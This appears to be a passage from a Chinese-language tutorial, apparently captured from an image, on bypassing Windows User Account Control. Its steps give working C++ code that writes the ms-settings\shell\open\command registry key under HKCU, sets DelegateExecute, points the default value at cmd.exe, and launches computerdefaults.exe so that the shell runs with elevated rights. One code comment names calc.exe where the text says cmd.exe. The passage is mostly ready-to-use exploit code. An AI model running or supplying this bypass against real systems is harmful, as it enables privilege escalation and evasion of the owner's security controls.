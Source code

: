 ```cpp
// 创建或打开注册表键
    if (RegCreateKeyEx(HKEY_CURRENT_USER, subKey, 0, NULL, 0, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {
        std::cerr << "Unable to create or open registry key\n";
        return false;
    }
```



### 2.创建键值

在刚刚创建的键下，创建一个名为 `DelegateExecute` 的键值，并将其设置为空字符串

```cpp
// 添加 "DelegateExecute" 键值
    if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)"", sizeof("")) != ERROR_SUCCESS) {
        std::cerr << "Unable to set registry value\n";
        RegCloseKey(hKey);
        return false;
    }
```



### 3.设置键的默认键值

设置 `ms-settings\shell\open\command` 键的默认键值为 `filename` 变量，这里是 `"cmd.exe"`

```cpp
// 设置默认键值为 "calc.exe"
    if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)filename, strlen(filename) + 1) != ERROR_SUCCESS) {
        std::cerr << "Unable to set default registry value\n";
        RegCloseKey(hKey);
        return false;
    }
```



### 4.启动进程

使用 `CreateProcess` 函数启动新的进程来执行 `"C://windows//system32//cmd.exe"` 这个命令，命令参数是 `/c C://windows//system32//computerdefaults.exe`。当这个命令执行时，它实际上会通过 `ms-settings\shell\open\command` 注册表键执行 `cmd.exe`，因为此键的默认键值被设置为 `cmd.exe`。这个过程就是用户账户控制（UAC）的绕过

```cpp
STARTUPINFO si;  //进程启动信息
	PROCESS_INFORMATION pi;  //进程信息
	ZeroMemory(&si, sizeof(si));  //将结构体si的所有成员都初始化为0
	ZeroMemory(&pi, sizeof(pi));  //将结构体pi的所有成员都初始化为0
	si.cb = sizeof(si);  //结构体大小

	if (!CreateProcess(
		"C://windows//system32//cmd.exe",  //要执行的应用程序名称（包含路径）
		(LPSTR)"/c C://windows//system32//computerdefaults.exe",  //命令行参数
		NULL,  //进程句柄不可被继承
		NULL,  //线程句柄不可被继承
		FALSE,  //不继承句柄
		0,  //标志位为0
		NULL,  //使用父进程的环境变量
		NULL,  //使用父进程的工作目录
		&si,  //传递启动信息
		&pi)  //传递进程信息
		) {
		printf("CreateProcess failed (%d).\n", GetLastError());  //打印错误信息
		return 0;
	}
```